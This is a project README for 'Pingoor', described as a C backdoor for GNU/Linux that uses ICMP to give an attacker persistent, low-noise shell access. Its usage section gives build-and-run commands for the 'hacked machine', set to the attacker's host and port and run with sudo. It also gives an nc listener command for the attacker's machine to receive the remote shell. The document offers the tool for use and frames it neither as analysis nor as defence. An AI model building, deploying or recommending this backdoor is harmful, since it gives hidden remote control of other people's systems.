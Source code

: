 <h1 align="center">「🚪」About Pingoor</h1>

<p align="center"><img src="assets/banner.png"></p>

<p align="center">Pingoor is a backdoor developed in C for the GNU/Linux operating system. Its main characteristic is to use the ICMP protocol to give the attacker access to the shell of a machine, making its access persistent with little noise.</p>

## How to Use

```
# Hacked machine
$ git clone https://github.com/MrEmpy/Pingoor.git
$ cd Farllen
$ HOST=<YOURHOST> PORT=<YOURPORT> make
$ sudo ./pingoor
```

```
# Attacker machine
nc -lnvp <YOURPORT>
```
